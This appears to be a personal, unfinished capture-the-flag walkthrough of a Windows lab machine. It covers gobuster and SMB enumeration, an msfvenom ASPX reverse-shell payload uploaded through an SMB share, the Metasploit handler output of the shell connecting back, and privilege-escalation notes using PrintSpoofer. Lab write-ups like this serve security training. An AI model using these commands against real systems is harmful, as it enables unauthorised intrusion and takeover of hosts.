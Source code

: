 
enumeration
```
gobuster dir -u http://10.10.50.140 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -x php,html,txt
```
smb
```
smbclient -L \\\\10.10.50.140\\
```
```
smbclient  \\\\10.10.10.144\\nt4wrksv
```
make payload  (note check payload is the same in msfvenom and msfconsole
```
sudo msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.137.19 LPORT=8910 -f aspx -o reverse1.aspx
```
in the smb share add   
```
put reverse1.aspx
```

browser
```
http://10.10.10.144:49663/nt4wrksv/reverse1.aspx
```
execute the browser and msfconsole 

```
msf6 exploit(multi/handler) > use exploit/multi/handler
[*] Using configured payload windows/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/shell_reverse_tcp
payload => windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.137.19
LHOST => 10.10.137.19
msf6 exploit(multi/handler) > set LPORT 8910
LPORT => 8910
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.137.19:8910 
[*] Command shell session 2 opened (10.10.137.19:8910 -> 10.10.10.144:49762) at 2025-05-28 21:24:48 +0100
```=

Shell Banner:
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
-----
          

c:\windows\system32\inetsrv>ls
ls
'ls' is not recognized as an internal or external command,
operable program or batch file.

c:\windows\system32\inetsrv>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\windows\system32\inetsrv
```
msfshell

```
cd c:\Users\Bob\Desktop
```
user.txt

---------------------->>>> priv escalation need to redo. <<<<<----------------- start here to see about exploit
i cant remember how i did it the first time 
Priv Escalation

```
whoami /priv
```
SeImpersonatePrivilege

location of the smb directory 
```
c:\inetpub\wwwroot\nt4wrksv
```
https://github.com/itm4n/PrintSpoofer

i can use metasploit for it. bg session 

```
search printspooler

use 4

sessions

set session 1

run

```
need to upgrade meterpreter shell 
```
use post/multi/manage/shell_to_meterpreter

set session 1

run
```
now need to run the printspooler again




#I couldnt get the smb share to copy the file over to my machine and still not sure of the error
